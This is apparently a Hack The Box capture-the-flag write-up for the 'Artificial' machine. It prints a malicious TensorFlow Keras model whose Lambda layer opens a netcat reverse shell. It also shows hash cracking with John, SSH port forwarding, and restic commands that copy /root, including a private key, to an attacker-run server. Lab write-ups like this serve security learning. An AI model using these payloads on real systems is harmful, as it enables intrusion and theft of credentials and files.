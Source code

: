 ```yaml
---
title: Hack The Box - Artificial (2025) Writeup
date: 2025-06-23 18:00:00
categories:
  - HackTheBox
  - Writeups
tags:
  - Artificial
  - TensorFlow
  - Docker
  - Linux
  - Privilege Escalation
  - restic
---
```


# Artificial (Hack The Box) - 2025

> "Sometimes, the best way to break an AI is to think like a human hacker."

---

## 1. Recon: The First Clues

It all started with a simple Nmap scan. The box, named **Artificial**, greeted me with two open ports:

```bash
nmap -sV -A artificial.htb
```

- **22/tcp**: OpenSSH 8.2p1
- **80/tcp**: Nginx 1.18.0, serving a site called "Artificial - AI Solutions"

> *Lesson: Always start with the basics. Every open port is a potential story.*

---

## 2. Web App & Dockerfile: Peeking Behind the Curtain

The website looked modern, but registration was open. After signing up, I found an upload page and, more interestingly, downloadable files: `Dockerfile` and `requirements.txt`.

The Dockerfile revealed the environment:
- Python 3.8
- TensorFlow CPU 2.13.1
- Bash as entrypoint

> *If you can reconstruct the target's environment, you can often reconstruct their mistakes.*

---

## 3. TensorFlow Lambda RCE: When AI Bites Back

Knowing TensorFlow was in play, I recalled past RCEs involving Lambda layers. I spun up a local Docker container to test my theory:

```dockerfile
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://...tensorflow_cpu-2.13.1...whl && \
    rm -rf /var/lib/apt/lists/*
RUN pip install ./tensorflow_cpu-2.13.1...whl
ENTRYPOINT ["/bin/bash"]
```

Then, I crafted a malicious model:

```python
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Uploaded `exploit.h5`, clicked "View Predictions," and... my netcat listener popped a shell. AI, meet human ingenuity.

---

## 4. From app to gael: Chasing Hashes

Inside the container as user `app`, I found a SQLite database:

```bash
cd ~/app/instance/
sqlite3 users.db
sqlite> SELECT * FROM user;
```

Dumped a hash, then cracked it with John:

```bash
echo "c9**********************" > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

Result: `gael : ***************`

---

## 5. Backups & Bcrypt: The sysadm Secret

As `gael`, I noticed I was in the `sysadm` group. In `/var/backups/`, a file `backrest_backup.tar.gz` was readable. Extracting it, I found a `config.json` with a bcrypt hash.

Cracked it with John (after base64 decoding):

```bash
echo "<hash>" | base64 -d > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

Result: `backrest_root : *******`

---

## 6. Port Forwarding: Opening the Inner Door

A service was listening on `127.0.0.1:9898`. I used SSH port forwarding to access it:

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

---

## 7. restic: Backing Up the Root

The internal service was a rest-server. I started my own rest-server and used restic to back up `/root` from the victim:

**On attacker:**
```bash
./rest-server --path /tmp/restic-data --listen :7777 --no-auth
```

**On victim:**
```bash
restic -r rest:http://10.10.16.46:7777/myrepo init
restic -r rest:http://10.10.16.46:7777/myrepo backup /root
```

**On attacker:**
```bash
restic -r /tmp/restic-data/myrepo snapshots
restic -r /tmp/restic-data/myrepo restore <snapshot-id> --target ./restore
```

Inside the restored `/root` folder: `root.txt` and `id_rsa`.

---

## 8. Root: The Final Step

With the private key, I could SSH as root:

```bash
ssh -i ./id_rsa root@artificial.htb
```

Or just read the flag directly. Mission complete.

---

## Reflections

- **AI is only as secure as its weakest link.**
- **Docker isolation is not a silver bullet.**
- **Backups can be a goldmine for attackers.**

> "Every box is a puzzle, but every puzzle is a lesson."

---

*This writeup is for educational purposes only. Always hack responsibly.* 